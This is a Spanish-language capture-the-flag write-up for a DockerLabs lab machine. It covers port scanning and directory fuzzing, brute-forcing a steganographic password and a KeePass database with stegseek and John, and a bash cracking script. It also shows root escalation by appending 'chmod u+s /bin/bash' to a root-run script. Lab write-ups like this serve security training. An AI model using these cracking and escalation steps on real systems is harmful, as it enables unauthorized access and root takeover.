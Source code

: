 

> Habilidades: Enumeración, esteganografía, fuerza bruta, escalada de privilegios
> 
![intro](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/Intro.png?raw=true)

# RECONOCIMIENTO

## Nmap Scan

Realizamos el primer sondeo a la IP de la víctima para averiguar qué puertos están abiertos:

~~~ bash
nmap --open -p- -n -sS -Pn --min-rate=5000 $ip -oG FirsScan
~~~

![Primer_Escaneo](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/FirsScan.png?raw=true)

- `--open`: Mostrar los puertos abiertos.
- `-p-`: Escanear todo el rango de puertos (65535)
- `-sS`: Escaneo TCP SYN, técnica más sigilosa para determinar el estado del puerto.
- `-n`: No aplicar resolución DNS.
- `-Pn`: Deshabilitar el descubrimiento de host, asumiendo que el objetivo se encuentra activo.
- `-oG`: Exportar el escaneo a un formato `Grepable`, util para extraer información.
- `--min-rate`: Tasa mínima de paquetes por segundo.

_____________________________________________________________________________________________________________________________________________________________________

### Enumerar Servicios

Realizamos enumeración a los puertos abiertos lanzando los scripts predeterminados e indicando la versión de los servicios. (-sC -sV)
~~~ bash
nmap -sVC -p 22,80 172.17.0.2 -oN ServicesScan
~~~

![ServicesScan](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/ServicesScan.png?raw=true)


- `-sC`: Ejecuta scripts NSE (Nmap Scripting Engine) predeterminados.
- `-sV`: Detecta la versión del servicio que se está ejecutando en cada puerto abierto.

_____________________________________________________________________________________________________________________________________________________________________

## Http Service

Vemos que el puerto `80` corresponde a un servicio HTTP. Vamos a investigar qué hay en él. Podemos usar la herramienta `whatweb` para listar las tecnologías detectadas en el servidor. (Como alternativa, puedes usar la extensión de navegador `Wappalyzer`).

~~~ bash
whatweb http://172.17.0.2
~~~

![whatweb](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/WhatWeb.png?raw=true)

Ahora nos dirigimos a reisar la web con el explorador. Vemos la pagina default del servidor Apache.

![Apache2Web](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/UbuntuWeb.png?raw=true)

Ahora realizaremos fuzzing para ver si encontramos algun directorio.


### Gobuster
~~~ bash
gobuster dir -u http://172.17.0.2 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 200 -x php,txt,html,php.bak
~~~
![gobuster](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/Gobuster.png?raw=true)

- `dir`: Modo de descubrimiento de directorios y archivos
- `-u`: Dirección URL
- `-w`: Diccionario a usar
- `-t 200`: Establecer 200 subprocesos 
- `-x php,txt,html,php.bak`: Busca extensiones de archivo

Encontramos un directorio interesante, penguin.html, nos dirigimos a la página a ver que podemos encontrar.

![penguinweb](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/penguinweb.png?raw=true)

Como siempre, revisamos también el código fuente, pero no encontramos nada. Vamos a revisar la imagen por si contuviera información oculta en los píxeles menos relevantes, usaremos la herramienta `steghide`. Con las opciones `extract` y `sf`.


## Stego

~~~
steghide extract -sf imagen.jpg
~~~

![steghide_pass](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/steghide_pass.png?raw=true)

El contenido de la imagen parece estár protegido por una contraseña. Hay herramientas para realizar fuerza bruta vamos a ello, `stegseek`.

~~~
stegseek penguin.jpg
~~~

![penguibruteforze](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/stegkek.png?raw=true)

Encontró la contraseña muy easy, exportó un arhivo con extensión kdbx y relativo a un gestor de contraseñas: `KeepPass`.





Al parecer, `chocolate` es la contraseña para extraer el archivo kdbx.
Lo extraemos e intentamos abrir con la misma contraseña sin suerte. Intentaremos fuerza bruta con la herramienta de ´keepass2john´ y `John`

![Extract_choco](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/Extract_choco.png?raw=true)

Primero, lo pasamos a un formato legible para john.

~~~
keepass2john penguin.kdbx > hash
~~~

A continuación, hacemos fuerza bruta al archivo `hash`.

![brute](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/burte.png?raw=true)
![force](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/force.png?raw=true)

~~~
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john --show hash
~~~
**
<details>
    <summary>Script para la misma tarea que John</summary>

```bash
#!/bin/bash

# Pedir rutas al usuario con ejemplos
read -p "Ruta del archivo diccionario (ej: /usr/share/wordlists/rockyou.txt): " rockyou_file
read -p "Ruta del archivo imagen (ej: /home/user/Desktop/DockerLabs/HackPenguin/penguin.jpg): " image_file
read -p "Ruta del archivo kdbx (ej: /home/user/Desktop/DockerLabs/HackPenguin/database.kdbx): " database_file

# Variables
output=""
nIntentos=0

# Verificar si los archivos existen
[[ ! -f "$rockyou_file" ]] && echo "rockyou.txt no existe en la ruta indicada" && exit 1
[[ -f "$database_file" ]] && echo "kdbx existe. Borrándolo..." && rm "$database_file"
[[ ! -f "$image_file" ]] && echo "imagen.jpg no existe en la ruta indicada" && exit 1

# Leer y probar contraseñas
while IFS= read -r password; do
    output=$(steghide --extract -sf "$image_file" -p "$password" 2>&1)
    let "nIntentos++"
    if [[ $output == *"no pude"* ]]; then
        echo -ne "Probando... : $password\rNúmero de contraseñas probadas: $nIntentos\r"
    else
        echo -e "\n------------------------------------\nContraseña encontrada: $password"
        break
    fi
done < "$rockyou_file"
```
</details>
**

Abrimos el archivo con la contraseña encontrada, para ello usamos keepassxc:

![Keepasxc](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/keepassxc.png?raw=true)
~~~
keepassxc penguin.kdbx
~~~

Una vez dentro obtenemos usuario y contraesña.

![pinguinpass](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/pinguipass.png?raw=true)


# Escalada de Privilegios

Nos conectamos al host mediante ssh con las credenciales encontradas y empezamos a enumerar el entorno.

~~~
ssh penguin@172.17.0.2
~~~

Sin ir muy lejos, vemos dos archivos en el directorio del usuario Penguin, y como vemos, el script se está ejecutando como root. 
Veamos que contienen.

~~~ bash
ls -lah
cat archivo.txt
cat script.sh
~~~
![files]()

Lo unico que tenemos que hacer es modificar el script para que nos devuelva una shell como root al ejecutarlo.

~~~ bash
echo 'chmod u+s /bin/bash' >> script.sh
~~~
![echo]()















